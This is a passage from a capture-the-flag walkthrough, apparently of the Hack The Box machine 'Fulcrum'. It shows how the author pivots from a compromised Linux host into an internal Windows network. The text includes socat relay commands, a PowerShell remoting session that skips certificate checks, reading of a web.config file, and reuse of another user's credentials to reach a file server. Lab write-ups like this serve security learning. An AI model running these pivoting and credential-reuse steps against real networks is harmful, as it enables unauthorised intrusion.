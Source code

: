 Like we thought, there seems to be a windows host attached with [Powershell remoteing](https://blogs.technet.microsoft.com/christwe/2012/06/20/what-port-does-powershell-remoting-use/) enabled. 


### Pivoting from Fulcrum Host to 192.168.122.x Network

To use PSRemoteing from my host machine properly, we are going to need to setup a pivot. The general gist of what we need to accomplish can be expressed with this diagram. 

!["Pivot Setup"](/assets/fulcrum/11.png "Pivot Setup")

I'm going to use `socat` for a majority of this because it's a tool I am very familiar with, and it's pretty easy to use. Although you can achieve the same results, using Metasploit, ssh, or some other like-minded tool.

We are going to listen for connections on port 55555 -> and relay that connection to `192.168.122.228` on port 5986 (PSRemoting port).

_on fulcrum machine (10.10.10.62)_

```
www-data@Fulcrum:/tmp/ ./socat tcp-listen:55555,reuseaddr,fork tcp:192.168.122.228:5986
```

_on my kali box (192.168.30.130)_ 

What is this doing is that it's going to listen for connections on port 5986 -> and relay that connection to 10.10.10.62 on port 55555. 

```
root@dastinia:~# socat tcp-listen:5986,reuseaddr,fork tcp:10.10.10.62:55555
```

Now from my (local) Windows 10 host we can connect to my Kali host (192.168.30.130), and it will relay that connection through our pivots to the network we are attempting to reach. 
We need the additional _-SessionOption_'s `SkipCACheck -SkipCNCheck` because you  get two error messages stating that `The SSL certificate is signed by an unknown certificate authority.` & `The SSL certificate contains a common name (CN) that does not match the hostname.`


```
PS C:\> Enter-PSSession -Computername 192.168.30.130 -Credential "Webuser" -UseSSL -SessionOption (New-PSSessionOption -SkipCACheck -SkipCNCheck)
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
WebUser
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
WEBSERVER
```

### Pivoting from WebServer to FileServer

If you attempt to read the contents of the user flag, you get a message stating that `You need to go deeper!`. Inspecting the `CheckFileServer.ps1` powershell script, we can see that they are hinting that most likely there is another host on the network. 


[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke